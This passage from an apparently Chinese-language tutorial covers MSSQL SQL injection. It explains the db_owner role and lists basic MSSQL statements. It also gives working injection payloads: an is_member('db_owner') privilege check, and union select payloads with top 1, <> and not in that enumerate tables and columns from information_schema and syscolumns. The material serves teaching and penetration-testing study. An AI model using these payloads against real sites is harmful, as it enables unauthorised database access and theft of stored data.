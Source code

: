 | **最高数据库角色** | **说明**                       |
| :----------------- | :----------------------------- |
| **db_owner**       | 可以执行数据库中所有动作的用户 |

```
# 我们可以通过语句判断权限:
and 1=(select is_member('db_owner'))--+
```

> **MSSQL常用语句**

```
# 创建数据库
create database [dbname];
create database test;

# 删除数据库
drop database [dbname];
drop database test;

# 创建新表
create table table_name (name char(10),age tinyint,sex int);
# 创建新表前要选择数据库，默认是master库 
use test; 
create table admin (users char(255),passwd char(255),sex int);

# 删除新表
drop table table_name;
drop table dbo.admin;

# 向表中插入数据
insert into table_name (column1,column2) values(value1,value2);
insert into admin (users,passwd,sex) values('admin','admin',1);

# 删除内容
delete from table_name where column1=value1;
delete from admin where sex=2;

# 更新内容
update table_name set column2=”xxx” where column1=value1;
update admin set users='admintest' where sex=2;

# 查找内容
select * from table_name where column1=value1;
select passwd from admin where users='admin';
```

- 排序&获取下一条数据
  - MSSQL数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，
  - 使用 <> 来排除已经显示的数据，获取下一条数据。
  - 使用not in来排除已经显示的数据，获取下一条数据。

```
# 使用<>获取数据
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--+
# 使用not in获取数据
id=-2 union select top 1 1,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables)--+
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name not in('id','username')--+
```
